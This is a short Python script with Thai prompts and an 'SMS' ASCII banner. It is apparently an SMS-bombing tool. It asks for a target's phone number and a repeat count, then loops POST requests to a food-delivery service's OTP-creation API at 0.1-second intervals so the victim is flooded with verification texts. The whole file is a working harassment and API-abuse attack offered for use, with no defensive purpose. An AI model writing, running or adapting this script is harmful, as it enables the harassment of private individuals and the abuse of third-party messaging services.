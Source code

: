 import requests,time

print("""

░██████╗███╗░░░███╗░██████╗
██╔════╝████╗░████║██╔════╝
╚█████╗░██╔████╔██║╚█████╗░
░╚═══██╗██║╚██╔╝██║░╚═══██╗
██████╔╝██║░╚═╝░██║██████╔╝
╚═════╝░╚═╝░░░░░╚═╝╚═════╝░

""")

no = input('ตัวอย่าง : 08xx\n[🎭] เบอร์: ')
jml = int(input('[🎭] จำนวน: '))

heder = {'Host': 'api2.1112.com',
'content-length': '44',
'user-agent': 'Mozilla/5.0 (Linux; Android 5.1.1; A37fw) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Mobile Safari/537.36',
'accept-language': 'th-TH,th;q=0.9,en;q=0.8',
}

data = {"phonenumber": f"{no}","language":"th"}

print("\n[กำลังยิง]")
for i in range(jml):
      sec = requests.post('https://api2.1112.com/api/v1/otp/create', headers=heder, json=data)
      if 'eror' in sec.text:
           print(f'{i+1}. [+]ยิงสำเร็จ {no}')
      else:
           print(f'{i+1}. [+]ยิงสำเร็จ {no}')
      time.sleep(0.1)

#เครดิตsank
